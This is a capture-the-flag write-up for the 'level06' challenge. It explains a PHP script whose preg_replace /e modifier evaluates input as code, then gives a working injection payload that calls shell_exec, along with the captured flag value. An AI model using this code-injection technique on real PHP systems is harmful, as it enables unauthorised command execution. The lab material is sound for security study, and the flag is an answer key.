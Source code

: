 # Step 1

Landing on `level06`, we find a PHP script that reads a file and replaces some characters.

```php
#!/usr/bin/php
<?php
// replace all occurences of . with x and @ with y
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}


function x($y, $z) {
    // put the content of the file in $a
    $a = file_get_contents($y);
    // replace all occurences of [x ...] with the result of y("...")
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    // Replaces all opening square brackets ([) with opening parentheses (().
    $a = preg_replace("/\[/", "(", $a);
    // Replaces all closing square brackets ([) with closing parentheses (().
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

// argv[2] is never used
// argv[1] is a file path
$r = x($argv[1], $argv[2]);
print $r;
?>
```

> `/(\[x (.*)\])/e`: The `e` modifier will execute the replacement as PHP code.
>
> `y(\"\\2\")`" The replacement is the result of the `y` function with the content of the second capturing group as argument.

# Step 2
The goal is to inject PHP code that executes the `getflag` command with the `shell_exec` function through the `y` function.

```bash
echo '[x {${shell_exec(getflag)}}]' > /tmp/getflag.txt
./level06 /tmp/getflag.txt
```

### Result

flag06: `wiok45aaoguiboiki2tuin6ub`

No password needed for `flag06` user.
